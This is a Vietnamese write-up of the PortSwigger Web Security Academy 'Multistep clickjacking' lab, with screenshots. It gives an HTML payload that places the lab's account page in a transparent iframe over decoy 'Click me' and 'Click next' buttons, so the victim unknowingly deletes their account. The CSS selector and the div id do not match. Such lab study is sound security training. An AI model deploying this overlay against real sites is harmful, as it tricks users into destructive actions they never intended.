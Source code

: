 # Multistep clickjacking



Mô tả::

+ Chức năng xóa tài khoản được bảo vệ bằng mã thông báo CSRF.
+ Một hộp thoại xác nhận bổ sung để bảo vệ khỏi bị kích chuột.
+ Nạn nhân sẽ nhấp vào bất kỳ thứ gì hiển thị từ nhấp chuột và sẽ tuân theo thứ tự cho các văn bản như Nhấp vào tôi trước và Nhấp vào tôi tiếp theo

Khi người dùng nhấp chuột vào xóa người dùng thì nó sẽ chuyển chúng ta đến một trang khác để xác nhận, vì thế chúng ta sẽ craft HTML như sau:

``` html
<style>
    #vuln_site{
        position:relative;
        width:1000px;
        height:800px;
        opacity:0.1;
        z-index:2;
    }
    #evil_site1{
        position:absolute;
        top:480px;
        left:50px;
        z-index:1;
    }
    #evil_site2{
        position:absolute;
        top:480px;
        left:50px;
        z-index:1;
    }
</style>
<div id="evil_site">Click me</div>
<div id="evil_site2">Click next</div>
<iframe id="vuln_site" src="https://0afa001404730540c146a81c00b40084.web-security-academy.net/my-account">
</iframe>
```

![image](https://user-images.githubusercontent.com/68894302/175211450-88f5022a-5af6-4a61-be8e-13c9f50b9cfa.png)

Theo thứ tự thì sau khi người dùng click vào `Click me` phía dưới chính là `Delete account` thì nó sẽ chuyển đến một trang xác nhận

![image](https://user-images.githubusercontent.com/68894302/175211957-389444bc-5caf-4dc0-8308-72372f81fe98.png)

Và lúc này nếu Click next chính là xác nhận xóa tài khoản. 

Vì thế cần thuyết phục người dùng nhấp hai lần. Trong thực tế, biết được hành vi của người dùng thông thường sẽ rất quan trọng để thuyết phục họ không chỉ nhấp chuột mà còn cả thứ tự nhấp chuột

![image-20220623115040451](C:/Users/tuandv/AppData/Roaming/Typora/typora-user-images/image-20220623115040451.png)